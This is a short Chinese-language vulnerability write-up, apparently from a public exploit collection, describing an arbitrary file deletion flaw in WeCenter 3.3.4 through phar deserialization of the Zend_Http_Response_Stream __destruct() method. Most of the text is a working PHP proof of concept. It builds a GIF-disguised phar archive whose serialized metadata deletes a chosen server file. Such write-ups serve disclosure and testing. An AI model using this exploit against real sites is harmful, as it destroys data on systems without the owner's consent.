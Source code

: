 # WeCenter 3.3.4 任意文件删除

### 一、漏洞简介

### 二、漏洞影响

WeCenter 3.3.4

### 三、复现过程

任意文件删除

system/Zend/Http/Response/Stream.php:__destruct() 方法中存在任意文件删除。

![](images/15893802451792.png)


poc


```php
<?php
class Zend_Http_Response_Stream
{
    protected $_cleanup;
    protected $stream_name;

    public function __construct($stream_name)
    {
        $this->_cleanup = true;
        $this->stream_name = $stream_name;
    }
}

$stream_name = '/var/www/html/wecenter334/shell.php';
$evilobj = new Zend_Http_Response_Stream($stream_name);
// phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();

?>
```